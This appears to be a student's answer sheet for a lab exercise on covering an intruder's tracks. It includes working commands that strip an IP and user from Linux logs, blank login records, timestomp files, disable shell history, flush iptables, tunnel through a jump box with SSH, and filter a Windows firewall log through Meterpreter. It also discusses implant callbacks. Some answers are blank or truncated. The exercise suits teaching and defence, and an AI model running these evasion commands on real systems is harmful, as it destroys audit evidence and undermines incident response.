# ICC Security - Exercise 02 - Logs and Redirection



```
cd ~
script exercise_02_1.txt
```



## Q1


```
sudo grep -E "10.10.1.60|intern01" /var/log/secure
sudo grep -E "10.10.1.60|intern01" /var/log/messages
```





## Q2

```
/var/run/utmp
/var/log/wtmp
/var/log/btmp
/var/log/lastlog
```

## Q3

```
sudo last -f /var/run/utmp
sudo last -f /var/log/wtmp
sudo last -f /var/log/btmp
sudo cat /var/log/secure
sudo cat /var/log/messages
```







## Q4

```
sudo grep -v -E "10.10.1.60|intern01" /var/log/secure > secure_san.txt
sudo mv secure_san.txt /var/log/secure

sudo grep -v -E "10.10.10.60|intern01" /var/log/messages > messages_san.txt
sudo mv messages_san.txt /var/log/messages

cat /dev/null > null.txt
sudo cp null.txt /var/run/utmp
sudo cp null.txt /var/log/wtmp
sudo cp null.txt /var/log/btmp
rm null.txt
```

NOTE: The utmp, wtmp and btmp log files are binary format

## Q5

```
sudo touch -t 202007010907.16 /var/log/secure
sudo touch -t 202007010907.16 /var/log/messages
sudo touch -t 202007010907.16 /var/run/utmp
sudo touch -t 202007010907.16 /var/log/wtmp
sudo touch -t 202007010907.16 /var/log/btmp
```

## Q6

```
a. Delete the entries
b. Modify the time to a zero byte file
```

## Q7

```
An attacker should adjust the time on log files they have modified so that the last modified time of the log file cannot be used to correlate with other suspicious activity on the machine and generate a timeline of malicious activity.

Investigators should review logs for mismatching times since they may indicate an adversary in the system has manually modified filetimes ("timestomped") to disguise any malicious activity.
```

## Q8

```
sudo cat /root/.bash_history
cat /home/intern01/.bash_history
```

## Q9

```
An investigator might use the bash command history to determine what activity an adversary has undertaken on a computer, including manual modification of file timestamps using the "touch" command.
```

## Q10

```
An attacker would want to remove incriminating entries from the .bash_history file to disguise their activity, protect their TTPs and inhibit the detection abilities of any investigators looking at the computer.
```

## Q11

```
unset HISTFILE
```

## Q12

```
An attacker should use a jump point an an intermediate machine when engaging a target to disguise the origin of the attack and reduce the ability of defenders to attribute the attack.
```

## Q13

```
Callback

> Outbound traffic is often less stringently controlled by firewalls, so has a better chance of leaving the compromised computer and creating the connection to the attacker C2 infrastructure via the redirector.
```

## Q14

List both the benefits and drawbacks of having the target listen for an incoming connection.

```
Benefits:
- Attacker can choose when to initiate connection to the implant, and not have to wait for the implant to made a callback.
- Don't need to re-exploit target machine to put implant back on.

Drawbacks:
- Inbound network traffic is often more highly scrutinised compared to outbound traffic, so the connection initiation is more likely to be blocked compared to a callback implant.
```

## Q15

List both the benefits and drawbacks of triggering an implant to initiate a callback connection.

```
Benefits:
- Less likely that the callback connection to attacker C2 infrastructure will be blocked - as outbound network traffic is often less stringently controlled compared to inbound traffic.
- Can use selection of destination port for callback to blend in with legitimate traffic expected to be leaving network (e.g. HTTPS on TCP port 443).

Drawbacks:
- Attacker needs to wait for implant to make callback if implant installation not directly triggered by attacker.
- Use of ephemeral ports for destination port of callback may appear suspicious and may be stopped by security devices in compromised network.
```

## Q16

List both the benefits and drawbacks of having a non-persistent implant.

```
Benefits:
- Non-persistent implants running only in memory are more difficult for network defenders to detect due to the lack of a presence on disk.
- Bypasses application white-listing since it is not running as its own executable (instead it is injected into an existing process on the compromised machine).

Drawbacks:
- Attacker access to computer via implant is lost if host process is terminated or computer is rebooted.
- Regaining access (if lost) requires re-exploitation of target computer, which may require additional work depending on the delivery method (e.g. phishing email).
```

## Q17

List both the benefits and drawbacks of having a persistent implant.

```
Benefits:
- Attacker does not need to re-exploit target machine if it is rebooted. If the machine is rebooted, the implant would be triggered depending on installation method (system boot, user logon, etc.).

Drawbacks:
- Persistent implant requires presence on disk to remain on computer between power-off and power-on. This provides increased opportunity for network defenders to detect the malware if it is not obscured through other means (e.g. by rootkit).
```

## Q18

Why should users avoid using port 445 as the callback destination port?

```
SMB traffic (via TCP port 445) is not usually intended to leave the local network. Therefore, any traffic from the local network going to TCP port 445 on a remote host would appear suspicious.
```

## Q19

To exploit a vulnerable service, the `destination port` must be `open`.

---





---

## Q20

Document and run the commands that will properly configure a forward and reverse the SSH tunnel from the attacker machine to the jump point.

```
ssh intern01@10.10.1.40 -L 41000:10.10.1.10:445 -R 42000:127.0.0.1:42000
```

```
            Kali (Attack Box)       CentOS (Jump Box)       Windows 2012 Server
            10.10.1.60              10.10.1.40              10.10.1.10
            +--------------+        +--------------+        +--------------+
            |              |        |              |        |              |
            |       [ephm] >--------> 22           |        |              |
            |              |        |              |        |              |
Fwd tunnel  |        41000 >========================--------> 445          |
            |              |        |              |        |              |
Rev tunnel  |        42000 <=============== 42000 =<        |              |
            |              |        |              |        |              |
            |              |        |              |        |              |
            |              |        |              |        |              |
            +--------------+        +--------------+        +--------------+
```

## Q21







CentOS (10.10.1.40):
- `sudo iptables -F`

Win2012 Server:
- Try with disabling Windows firewall - however, may not be needed.



Network connections with Meterpreter session active:







## Q22

Explain why an attacker needs to set the callback port (LPORT) to a non-default value for the exploit.

```
The LPORT needs to be changed to the listening reverse tunnel port on the jump box so that payload calls back to it from the target box when executed. From the perspective of the target machine, the call back is going to the jump point, thereby disguising the origin of the attack.
```

## Q23

There are entries for the event 4625 in the Security log.

```
True
```

- Command executed:
  - `run multicommand -cl "WEVTUtil qe Security /rd:true /f:text /q:\"Event[System[(EventID=4625)]]\""`

## Q24





Usernames:





## Q27

Would a system administrator have caught the event 1102? Explain why or why not.

```
A system administrator would have caught the Log Cleared event (ID 1102) if they knew to look for the event ID. However, they may miss the event if they are manually reviewing the Security event log in reverse chronological order (most recent first), which is the default in the Windows Event Viewer.
```

## Q31



## Q32

Explain why an operator would change directories when working with critical files instead of using a full file path.

```
To ensure that the intended file is being operated upon and to reduce mistakes made with retyping out a full filepath multiple times.
```

## Q33



```
ls

It is important to know the timestamps of a file before it is manipulated so
```

## Q34



```
The /V switch inverts the string match, returning all lines from the input file that do not match the specified pattern.
```

## Q35

```
Redirects the output of the findstr command into a file called "temp.log".
```

## Q36



```
The command extracts all lines from the "pfirewall.log" file that do not contain the IP address of the Jump Point machine.
```

## Q37



```
C:\Windows\System32\LogFiles\Firewall
```



## Q38



```
No
```




## Q39



```
Yes
```



## Q40



```
1. First command disables the Windows Firewall for all profiles on target machine.
2. Second command overwrites the pfirewall.log file with all lines from the original version not containing the IP address of the Jump Box machine.
3. Third command re-enables Windows Firewall for all profiles on target machine.
4. Last command looks for all lines in the pfirewall.log file containing the Jump Box IP address, of which there are none.
```









## Q41





```
rm temp.log
rm temp2.log

It is important to clear up any temporary files created as part of adversarial activity on a computer to limit the evidence available to network defenders for detecting and investigating the activity.
```

## Q42

Document and run the Meterpreter command to view the contents of the pfirewall.log file, and make note of it.



`[truncated]`




```
cat pfirewall.log
```

## Q43



```
Steps all four timestamps (MACE) for the specified file.
```



## Q44

Explain the purpose of changing the timestamps of a newly created file.

```
Changing the timestamps of a newly created file helps it to blend in with legitimate, unmanipulated files on the system. This serves to inhibit the ability of network defenders to detect and investigate any suspicious activity relating to the file.
```

## Q45







```
- No Prefetch folder on the target machine ("C:\Windows\Prefetch\")

- run multicommand -cl "netstat -p -no"

- kill -s
```

## Q46

Document and run the command to display the current running processes. Take note of any suspicious processes attributable to the operation.



## Q50

```
- Ensure Firewall is enabled for all profiles and only minimum rules required for essential services are enabled for input and output.

- Ensure event logs are monitored for signs of adversary manipulation, such as Log Clear (ID 1102).
```

